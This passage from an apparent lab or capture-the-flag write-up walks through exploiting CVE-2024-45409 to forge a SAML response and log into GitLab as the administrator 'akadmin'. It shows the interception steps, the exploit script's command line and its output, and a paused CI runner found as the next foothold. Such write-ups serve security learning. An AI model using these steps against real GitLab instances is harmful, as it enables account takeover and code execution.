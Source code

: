 After logging in, we see 2 applications - Gitlab und Guacamole. So at this point, even without fuzzing we know about the Guacamole application:

![authentik.png](authentik.png)

We try to use the Guacamole application but it's not working - this user likely has no access to it. We also have no administrative permissions on Authentik, so we are stuck with the privileges we have. It's however noteworthy that Gitlab also uses SSO - we remember a recent vulnerability that allowed to escalate to other users:

- [https://projectdiscovery.io/blog/ruby-saml-gitlab-auth-bypass](https://projectdiscovery.io/blog/ruby-saml-gitlab-auth-bypass)
- [https://github.com/synacktiv/CVE-2024-45409](https://github.com/synacktiv/CVE-2024-45409)

The blog describes how we can, given that we can intercept a valid SAML authentication process, manipulate it so we become another user instead (remember we found one called "akadmin" earlier). To execute the attack we follow the steps outlined in the repository.

First we log out of gitlab, then intercept everything in burp. We click "Single Sign On" and forward until we get this request:

```
GET /users/auth/saml/callback?SAMLResponse=nVhZk...
Host: gitlab.barrier.vl
...
```

We copy the SAML and decode it like [this](https://gchq.github.io/CyberChef/#recipe=URL%5FDecode%28%29From%5FBase64%28%27A%2DZa%2Dz0%2D9%252B%2F%253D%27%2Ctrue%2Cfalse%29Raw%5FInflate%280%2C0%2C%27Adaptive%27%2Cfalse%2Cfalse).

Then we save the result into "response.xml" and run the script to change the user to "akadmin" as follows:

```
python3 CVE-2024-45409.py -r response.xml -n akadmin -e -o response_patched.xml
[+] Parse response
	Digest algorithm: sha256
	Canonicalization Method: http://www.w3.org/2001/10/xml-exc-c14n#
[+] Remove signature from response
[+] Patch assertion ID
[+] Patch assertion NameID
[+] Patch assertion conditions
[+] Move signature in assertion
[+] Patch response ID
[+] Insert malicious reference
[+] Clone signature reference
[+] Create status detail element
[+] Patch digest value
[+] Write patched file in response2_patched.xml
``` 

Now in the still intercepted request, we exchange the base64 blob with the new one and continue. This logs us into gitlab as "akadmin" instead of "satoru". We check the admin area and find that there is a runner available! This means that if we provide a repo with a specific build file and tag - it will be build automatically by this runner which is likely a docker container. We note that the runner is also paused - we can now resume it since we are the administrator. We also see that the tag required is `auto_5e7f` in the runner options.
